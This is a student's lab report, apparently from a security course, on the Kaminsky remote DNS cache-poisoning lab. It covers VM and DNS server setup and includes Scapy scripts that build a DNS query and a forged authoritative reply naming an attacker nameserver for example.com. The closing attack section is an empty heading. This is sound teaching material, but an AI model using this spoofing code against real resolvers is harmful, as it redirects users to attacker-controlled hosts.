

#<center>Remote DNS Attack<br>(Kaminsky Attack) Lab
<center>2018级 信息安全 管箫 18307130012</center>

##Lab Environment Setup Tasks
```
在本次实验中，我们使用三台虚拟机，ip地址分别为：
Attacker: 192.168.61.138
Victim: 192.168.61.139
DNS Server: 192.168.61.140
```

###Task 1: Configure the User VM
内容同DNS_Local实验

###Task 2: Configure the Local DNS Server (the Server VM)
####Step 1: Remove the example.com Zone
将DNS_Local实验中添加的example.com域移除
####Step 2: Set up a forward zone
将Attacker指定为域attacker32.com的拥有者
####Step 3: Configure a few options
#####Configure where to dump the DNS cache
#####Turn off DNSSEC.
#####Fix the Source Ports.
以上均已在DNS_Local中完成或无需更改。
####Step 4: Restart DNS server.

###Task 3: Configure the Attacker VM
修改攻击者主机上的DNS服务器设置，使其成为attacker32.com和example.com的解析者


###Task 4: Testing the Setup
通过192.168.61.140查询

通过192.168.61.138查询

由于我们绑定到ns.attacker32.com域名的ip地址的主机并不存在，所以dig无法收到任何响应

##The Attack Tasks
###How Kaminsky attack works


###Task 4: Construct DNS request
```
from scapy.all import *

Qdsec = DNSQR(qname='www.example.com')
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
ip = IP(dst='192.168.61.140', src='192.168.61.138')
udp = UDP(dport=53, sport=53, chksum=0)
request = ip/udp/dns

send(request)
```

观察到我们构建了正确的请求包

###Task 5: Spoof DNS Replies
```
from scapy.all import *

name = 'www.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst='192.168.61.140', src='192.168.61.138')
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns

send(reply)
```

观察到我们正确构造了响应包

###Task 6: Launch the Kaminsky Attack
